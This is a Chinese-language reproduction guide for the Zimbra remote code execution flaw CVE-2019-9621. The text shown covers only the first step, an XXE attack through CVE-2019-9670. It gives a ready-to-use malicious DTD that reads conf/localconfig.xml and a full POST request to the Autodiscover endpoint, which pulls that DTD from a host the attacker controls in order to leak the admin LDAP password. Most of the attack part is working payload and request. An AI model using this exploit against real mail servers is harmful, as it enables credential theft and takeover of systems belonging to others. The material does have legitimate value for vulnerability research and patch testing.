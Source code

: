 # CVE-2019-9621 Zimbra 远程代码执行漏洞

### 一、漏洞简介

当 Zimbra 存在像任意文件读取、XXE（xml外部实体注入）这种漏洞时，攻击者可以利用此漏洞读取 localconfig.xml配置文件，获取到 zimbra admin ldap password，并通过 7071 admin 端口进行 SOAP AuthRequest 认证，得到 admin authtoken漏洞是利用XXE和ProxyServlet SSRF 漏洞拿到 admin authtoken 后，通过文件上传在服务端执行任意代码，威胁程度极高。当Zimbra服务端打来Memcached缓存服务是，可以利用SSRF攻击进行反序列化执行远程代码。不过由于Zimbra在单服务器安装中尽管Memcached虽然启动但是并没有进行使用，所以其攻击场景受到限制。

### 二、漏洞影响

ZimbraCollaboration Server 8.8.11 之前的版本都受到影响。具体来说：

* Zimbra < 8.7.11 版本中，攻击者可以在无需登录的情况下，实现远程代码执行。
* Zimbra < 8.8.11 版本中，在服务端使用 Memcached 做缓存的情况下，经过登录认证后的攻击者可以实现远程代码执行。

### 三、复现过程

第一步：利用XXE读取配置文件

![](images/15896908608908.png)


这里利用了CVE-2019-9670漏洞来读取配置文件，你需要在自己的VPS服务器上放置一个dtd文件，并使该文件能够通过HTTP访问。为了演示，我在GitHub上创建了一个仓库，从GitHub上获取dtd文件。

上图中用红框圈起来的就是zimbra账号的密码，先记下来以后会用到。

dtd文件内容如下：


```bash
<!ENTITY % file SYSTEM "file:../conf/localconfig.xml">  
<!ENTITY % start "<![CDATA["> 
<!ENTITY % end "]]>">  
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>"> 
```

POST请求包如下：


```bash
POST /Autodiscover/Autodiscover.xml HTTP/1.1  
Host: mail.****.com  
User-Agent: Mozilla/5.0 (Windows NT 10.0;) Gecko/20100101 Firefox/66.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
Accept-Encoding: gzip, deflate  
Referer: https://mail.****.com/zimbra/  
Content-Type: application/soap+xml  
Content-Length: 436  
Connection: close  
Cookie: ZM_TEST=true  
Upgrade-Insecure-Requests: 1  

<!DOCTYPE Autodiscover [  
        <!ENTITY % dtd SYSTEM "http://192.168.3.5/dtd">  
        %dtd;  
        %all;  
        ]>  
<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">  
    <Request>  
        <EMailAddress>aaaaa</EMailAddress>  
        <AcceptableResponseSchema>&fileContents;</AcceptableResponseSchema>  
    </Request>  
</Autodiscover>
```
